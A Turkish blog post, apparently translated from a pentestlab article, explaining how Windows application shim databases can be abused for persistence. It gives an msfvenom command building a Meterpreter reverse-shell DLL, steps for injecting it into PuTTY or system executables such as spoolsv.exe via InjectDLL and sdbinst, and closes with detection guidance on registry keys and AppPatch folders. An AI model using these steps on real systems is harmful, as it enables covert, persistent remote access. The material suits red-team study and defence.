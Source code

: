 Title: Application Shimming Kullanarak Windows Sistemler Üzerinde Kalıcılık
Date: 2019-12-21 15:00
Tags: Application Shimming, Red Team, Kırmızı Takım, Windows sistemlerde kalıcılık, Windows Pentest, Windows Kırmızı Takım, Windows Red Team
Category: siber güvenlik
Authors: 0x656e


Selamlar,

Başlık bilgisinde geçen Application Shimming'i Türkçeye çevirmek oldukça zor bunun yerine anladığımı çevirdiğim yazıya ek olarak Shimming'in ne olduğunu/benim nasıl anladığımı yazmaya çalışacağım.

**Not:** Yazı benim araştırmış olduğum bir yazı olmayıp, okuyup beğendiğim, anladığımı düşündüğüm bir konu üzerinde aşağıdaki link üzerinden kendi halinde çevirilmiş bir yazıdır. Birebir ana kaynakla aynı değildir. 

## Shimming Nedir?
Windows sistemler üzerinde bir uygulamanın her sistemde çalışabilmesi adına çeşitli ayarlar barındıran bir dosyadır. `SDB` dosyası olarak sistemler üzerinde tutulmaktadır. Dosya format olarak XML dosya formatındadır. Bu sayede sistemler üzerinde admin veya geliştiriciler yüklü uygulamalar üzerinde `Uyumluluk` sorunlarını düzeltebiliyor veya patchleyebiliyorlar diyebiliriz.

Örnek bir SDB Dosyası: [Python-SDB](https://github.com/williballenthin/python-sdb)

Microsoft bu sebeple bir geliştirici kiti yayınlamıştır. Bu geliştirici kitinin ismi kısaca ADK'dır(Asssesment and Deployment Kit). 
[ADK'yı indirmek İçin Tıklayın](https://go.microsoft.com/fwlink/?linkid=2086042)

## Biz bu SDB Dosyası ile Ne yapacağız?
Yukarıda bahsetmiş olduğum `Uyumluluk` problemi için bu SDB dosyaları içerisinde InjectDLL diye bir seçenek bulundurmaktadır. Bunun sebebi geliştiricler eğer eski bir windows versiyonunda çalışacak uygulama varsa bu sisteme uygun DLL dosyasını uygulamaya dahil etmesini gerektirdiğindendir.

Windows 10 sisteme bazı uygulamaların açılabilmesi için .Net Framework 4.5 ile birlikte Net Framework 3.5 yüklemek gibi düşünebiliriz. (Sadece örnektir, geriye dönük uyumluluğun anlaşılabilmesi için vs.)

İşte bu InjectDLL özelliği bizim kullancağımız şeydir. Eğer biz burada bir uygulamaya istediğimiz bir DLL'i enjekte(!) edebilirsek bu sistem üzerinde kalıcılığı sağlamış oluruz. Üstelik görsel herhangi bir uyarı olmadan. 

**Not:** Defcon 23'de bu konuyu işleyen, gündeme getiren [Sean Pierce](https://twitter.com/secure_sean)'in orjinal sunum/videosu için aşağıdaki linki kullanabilirsiniz.

[Abusing Native Shims for Post Exploitation](https://www.youtube.com/watch?v=LOsesi3QkXY)


## Uygun bir DLL Dosyası Hazırlamak
Burada siz isterseniz kendinize özel bir DLL dosyası hazırlayabilirsiniz fakat okuduğum örnekte bu DLL dosyası Reverse Shell almak için kullanılmaktadır. 

MSFVenom ile DLL Dosya formatında Reverse Shell oluşturmak için
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f dll > pentestlab.dll
```

## Arayüz ile Herhangi bir Uygulamaya DLL'i Enjekte Etmek
Bunun için Windows'un bize sunmuş olduğu ADK Toolkit uygulamasını açıyoruz ve burada sol sütundan Custom databases altında yeni bir database oluşturuyoruz. 

![Windows ADK](https://pentestlab.files.wordpress.com/2019/12/persistence-application-shimming-combatibility-administrator.png)


Örnek üzerinde Putty kullanılmış. Putty kullanılmasının nedeni ise sıkça kullanılan küçük bir uygulama olması ve sistem yöneticileri vs tarafından şüphe çekmeyen bir uygulama olmamasından dolayıdır. Kendisi bir clientdır.(SSH, Telnet etc.)

![Putty DLL Inject](https://pentestlab.files.wordpress.com/2019/12/persistence-application-shimming-create-application-fix.png)

Aşağıdaki ekran görüntüsünde yukarıdaki ekranda next dedikten sonra InjectDLL seçeneğini seçiyoruz ve Next diyoruz.

![InjectDLL](https://pentestlab.files.wordpress.com/2019/12/persistence-application-shimming-inject-dll.png)

Burada açılan ekranda ise InjectDLL'in bizden parametre isteyen ekranı açılacaktır. Bu ekranda `Command Line` kısmına biraz önce oluşturduğumuz DLL dosyasının konumunu veriyoruz.

![Options for InjectDLL](https://pentestlab.files.wordpress.com/2019/12/persistence-application-shimming-inject-dll-options.png)

İşte bu kadar tüm işlemler tamamlandıktan sonra artık bir `sdb` dosyasına sahibiz. Buradan sonraki kısım ise bu `sdb` dosyasını sisteme eklemek.

Bunun için 
```bash
sdbinst olusturdugunuzsdb.sdb
```

![SDB Install](https://pentestlab.files.wordpress.com/2019/12/persistence-application-shimming-installed.png)


Evet artık her şeyimiz tamamlandı, sistem yöneticimiz ne zaman Putty'yi açarsa bize Reverse Shell düşecektir. Metasploit üzerinde Multi handler açıp sürekli dinleyerek nurtopu gibi bir meterpreter shell'e sahip olabilirsiniz. 

## Arayüz Olmadan Enjekte Etmek

Bunun için CLI üzerinden aşağıdaki komutunu girmeniz yeterli olacaktır.

```
sdb-explorer.exe -r pentestlab.sdb -a istediginiz.exe
```

Tabi burada illa kurulu bir uygulama olmasına gerek yok isterseniz Windows sistem üzerinde çalışan herhangi bir exe'ye de bunu enjekte edebilirsiniz. Okuduğum makale örneğinde `spoolsv.exe` dosyasına enjekte edilmiştir.

## Peki Her Şey Güzel Biz Bu İşlem Olduğunda Anlayabilir Miyiz?

Sorunun kısa cevabı: Evet.
Uzun cevap:

Oluşturulan bu SDB dosyalarına ait kayıtlar Windows sistemler altında AppPatch klasörü altında tutulmaktadır. 

Bu klasöre ulaşmak için: 
```
%WINDIR%\AppPatch\custom
%WINDIR%\AppPatch\AppPatch64\Custom
```

Ha bunun yerine isterseniz Process Explorer içerisinde de kaybolabilirsiniz.

## Tespit etmek

Registry değişikliklerini veya dosya konumlarını izlemek bunun için bir yöntemdir. Takip edilecek Registry ve dosya konumları aşağıda verilmiştir. Oluşturulacak yeni bir key SysMon üzerinde `12` event ID ile tetiklenecektir. 

Registry konumları:
```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\Custom\
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\InstalledSDB\
```

Dosya konumu:
```
%WINDIR%\AppPatch\custom
%WINDIR%\AppPatch\AppPatch64\Custom
```

Daha detaylı bir bilgi almak için Sean Price'ın [sunumunu](https://www.blackhat.com/docs/eu-15/materials/eu-15-Pierce-Defending-Against-Malicious-Application-Compatibility-Shims.pdf) kullanabilirsiniz.




Okuduğum yazı:
[Persistence Application Shimming](https://pentestlab.blog/2019/12/16/persistence-application-shimming/)


## Yazı Sonu

Konu nispeten eski bir konu fakat okuduğum kaynak yeni attığı için ben de çevirme ihtiyacı duydum o yüzden bu konuda bir eleştiri kabul etmeyeceğim :D Hoş kabul etsem de umurumda değil orası ayrı.

Bu yazıyı dün sabaha doğru yazdım ve planım yazı sonuna doğru kendi duygu/durum, ülkenin hali(Nolacak bu ülkenin hali yav?), arkadaşlık ilişkileri(Arkadaşlardan ziyade tanıdıklarım kavramı) gibi içimdeki bir çok şeyi yazı sonuna dökecektim fakat gerek olmadığını düşünüyorum. Yine bir klasik olarak şarkı ile bu yazının sonunu getirelim hem konuya, hem boşvermişliklere uygun olsun.


[![](http://img.youtube.com/vi/4eAQIXcvJ3A/0.jpg)](http://www.youtube.com/watch?v=4eAQIXcvJ3A "Duygusal olmaya gerek yok")

